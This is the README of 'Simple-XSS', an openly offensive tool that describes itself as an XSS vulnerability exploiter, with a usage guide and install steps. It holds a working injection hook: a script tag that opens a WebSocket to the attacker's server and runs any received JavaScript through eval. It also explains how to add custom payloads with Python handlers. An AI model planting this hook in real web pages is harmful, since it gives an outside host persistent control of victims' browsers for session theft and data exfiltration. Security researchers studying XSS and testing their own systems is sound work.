



# Simple-XSS

Simple-XSS is a multiplatform XSS vulnerability exploiter.

## Algorithm

## Usage

### Hook

> _Hooks folder: [hooks](hooks)_


**Hook** is an HTML code that can be embedded in a vulnerable XSS form. It looks like:

```html

<script>c = new WebSocket('{{environment.public_url}}'); c.onmessage = (e) => eval(e.data);</script>
```

**NOTE:** _As you can see here is a variable: {{environment.public_url}}. You can read more about
this [below](#Internal-Objects)._

This is a [default](hooks/default) hook. When it's embedded in the vulnerable form, it downloads the JS
code ([payload](#payload)) via
WebSockets
protocol from the server and
executes it using [eval](https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval).

Hook has the following structure:

```
|
+-- hook_folder
    |
    +-- hook.html
    |
    +-- package.toml
```

**hook.html** - main file, contains HTML code that can be embedded in vulnerable form.

**package.toml** - metadata file, contains data about hook such as name, description, author and version.

### Payload

> _Payloads folder: [payloads](payloads)_

**Payload** is an arbitrary JS code that loaded by hook on a vulnerable page and executed
with [eval](https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval).

Payload has the following structure:

```
|
+-- payload_folder
    |
    +-- payload.js
    |
    +-- package.toml
    |
    +-- init.py
```

**payload.js** - main file, contains arbitrary JS code.

**package.toml** - metadata file, contains data about payload such as name, description, author and version.

**init.py** - python file, imported when loading payload. Allows you to interact with the client side of payload
(payload.js) via WebSockets protocol.

_To create custom payload, follow these steps:_

- Create payload folder in [.\payloads](payloads) and go into

```shell
cd payloads
mkdir my_payload
cd my_payload
```

- Then create main file

```shell
echo "alert(1)" > payload.js
```

- Create package file (not required)

```shell
echo "name = 'My Payload'" > package.toml
```

- Create init python file (not required)

```shell
echo "print('Hello, World!')" > init.py
```

### Internal-Objects

**Internal objects** are transferred to hook & payload main files using [Jinja](https://jinja.palletsprojects.com/)
templating engine. It contains additional information that may be needed when loading a hook or payload.

As you can see above it's used in example of hook code.

#### Environment

#### Metadata

## Interface

> _Thanks to the use of the [Python Flet framework](https://flet.dev/), the application works equally well both in the
browser and in the graphical interface._

### Graphical



### WEB



### Command-Line



## Installation

### Windows

First you need to clone the repository:

```commandline
git clone https://github.com/CrazyProger1/Simple-XSS
```

Then go to the folder & install requirements:

```commandline
cd Simple-XSS
pip install -r requirements.txt
```

And finally you can run it:

```commandline
python main.py
```

### Linux

## License

Simple-XSS is released under the MIT License. See the bundled [LICENSE](LICENSE) file for details.
